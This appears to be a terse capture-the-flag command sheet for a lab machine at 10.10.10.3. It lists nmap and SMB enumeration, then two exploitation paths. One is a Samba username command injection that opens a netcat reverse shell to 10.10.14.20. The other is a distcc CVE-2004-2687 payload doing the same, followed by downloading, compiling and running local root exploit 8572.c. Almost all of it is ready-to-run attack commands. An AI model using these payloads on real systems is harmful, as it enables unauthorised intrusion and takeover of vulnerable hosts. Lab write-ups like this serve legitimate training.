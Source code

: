 #   CMD 

```
nmap -sC -sV 10.10.10.3
```
-sC: run default nmap scripts <br>
-sV: detect service version

```
ls /usr/share/nmap/scripts/ftp*
```
/usr/share/nmap/scripts/ftp-anon.nse<br>
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse<br>
/usr/share/nmap/scripts/ftp-bounce.nse <br>
/usr/share/nmap/scripts/ftp-syst.nse<br>
/usr/share/nmap/scripts/ftp-brute.nse
/usr/share/nmap/scripts/ftp-libopie.nse <br>
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
<h5>/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse</h5>

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```
```
ls /usr/share/nmap/scripts/ssh*
```
```
smbclient -L 10.10.10.3
```
```
smbmap -H 10.10.10.3
```

#   Exploitation #1: Samba

```
nc -nlvp 4444
```
```
smbclient //10.10.10.3/tmp
```
```
logon "/=`nohup nc -nv 10.10.14.20 4444 -e /bin/sh`"
```
```
python3 -c 'import pty;pty.spawn("/bin/bash")' 
```
#   Exploitation #2: Distcc

```
nc -nlvp 4444
```
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.20 4444 -e /bin/bash'"
```
```
searchsploit -m 8572.c
```
```
python -m SimpleHTTPServer 9005
```
```
wget http://10.10.14.20:5555/8572.c
```
```
gcc 8572.c -o 8572  
```
```
ps -aux | grep devd
```
```
nc -nlvp 4445
```
```
./8572 2661
```
